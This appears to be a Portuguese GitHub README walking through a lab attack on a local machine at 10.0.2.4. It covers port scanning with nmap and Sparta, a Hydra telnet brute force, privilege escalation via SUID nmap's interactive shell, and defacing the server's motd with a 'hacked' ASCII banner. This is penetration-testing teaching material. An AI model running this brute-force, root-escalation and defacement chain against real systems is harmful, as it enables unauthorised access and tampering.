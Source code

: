 ![banner GS cyber](https://user-images.githubusercontent.com/48387196/121257879-9a9ab300-c884-11eb-9a9a-4923081f3d28.png)

## Scan das portas

```
nmap -sS 10.0.2.4 | tee nmap-ss.txt
```

Por que fazer um port scanning? a ideia de se fazer um tipo de scan desses e buscar portas abertas e suscetíveis a ataques. Usando o `tee` conseguimos salvar estas portas em um arquivo txt.

## Análise de vulnerabilidades

Depois da análise das portas vamos fazer uma análise de vulnerabilidades utilizando o Sparta que é uma ferramenta de scanner de vulnerabilidades. Com o Sparta já instalado vamos rodar alguns comandos para iniciarmos ele.

Start in /usr/share/sparta

```
python3 sparta.py 
```

Após o início do programa colocamos nosso host 10.0.2.4 que será atacado e podemos buscar por vulnerabilidades dentro desse servidor.

![image](https://user-images.githubusercontent.com/48387196/120836104-934d6f80-c53b-11eb-824f-124133d6274f.png)

Com o sparta o nmap roda até o layer 3 e roda também o nikto para busca de vulnerabilidades web. Ainda podemos rodar o disbuster por exemplo para buscar pastas escondidas no servidor web e também fazer um brute force direto no programa.

## Mitre Att&ck

Brute Force ID: T1110

Os adversários podem usar técnicas de força bruta para obter acesso a contas quando as senhas são desconhecidas ou quando os hashes de senha são obtidos. Sem o conhecimento da senha de uma conta ou conjunto de contas, um adversário pode adivinhar a senha usando um mecanismo repetitivo ou iterativo. A força bruta de senhas pode ocorrer por meio da interação com um serviço que verificará a validade dessas credenciais ou off-line em relação aos dados de credenciais adquiridos anteriormente, como hashes de senha.

## TelNet

O TELNET é um serviço muito vulnerável. Por não possuir nenhum tipo de criptografia, permite a descoberta de senhas e captura de informações.Através de uma sessão TELNET é possível disparar ataques, descobrir portas desprotegidas e serviços que estão sendo executados no servidor. O TELNET também é usado freqüentemente para gerar correio e notícias falsas (fakemail e fakenews).

## Brute Force Attack

Sabemos que existem portas abertas dentro do servidor e com isso podemos fazer um ataque de força bruta e tentar acessar o servidor. Fiz uma fork de um repositório com wordlists e vamos tentar buscar acesso com uma senha já conhecida por diversas pessoas.

Vamos utilizar a ferramenta Hydra para fazer esse brute force dentro do servidor e buscar entrar dentro do servidor apenas usando uma wordlist e batendo user e senha.

Vamos entrar na pasta do kali /user/share/wordlists e fazer um gunzip do rockyou.(mas como vamos utilizar um exemplo eu baixei uma wordlist da internet mais simples para não demorar tanto esse brute force).

```
hydra -l funcionario -P passlist.txt 10.0.2.4 telnet -V 
```

Através do hidra e de senhas já conhecidas em uma wordlist conseguimos obter o acesso ao servidor 

## Escalando privilegios

![hack](https://hackerculture.com.br/wp-content/uploads/2021/04/priv-escalation.png)

Depois de buscar o acesso ao servidor percebemos que o user não tem privilégios para a gente conseguir acessar todas as vulnerabilidades, por isso vamos precisar de uma escala de privilégios

Entrando no servidor:

```
ssh funcionario@10.0.2.4
```

Vamos buscar por todos os programas que possuem privilégios:

```
find / -user root -perm -4000 2>/dev/null
```

Logo após sabermos que o nmap possui privilégio vamos utilizar ele para ter acesso root ao servidor, utilizando o código abaixo para ter acesso ao modo interativo do nmap.

```
nmap --interactive 
```
Rodar o shell

```
!sh
```

Agora se eu der um `id` ou `whoami` eu apareco como root

Entao agora bora na pasta principal do servidor e clonar nosso repositorio mas antes excluir o motd que ja existe.

```
rm -rf motd
```
```
cat > motd
e cola o ASCII
CTRL + Z
```

## Tools using

- nmap
- hydra
- wordlists
- sparta
- GTFOBins

## Ascii Hacked

```
                        |\
               \`-. _.._| \
                |_,'  __`. \
                (.\ _/.| _  |
               ,'      __ \ |
             ,'     __/||\  |
            (     ,/|||||/  |
               `-'_----    /
                  /`-._.-'/
                  `-.__.-' 

  _____      _              _ _           
 |  __ \    | |            | | |          
 | |__) |_ _| |_ _ __ _   _| | |__   __ _ 
 |  ___/ _` | __| '__| | | | | '_ \ / _` |
 | |  | (_| | |_| |  | |_| | | | | | (_| |
 |_|   \__,_|\__|_|   \__,_|_|_| |_|\__,_|
                                          
                                          
```
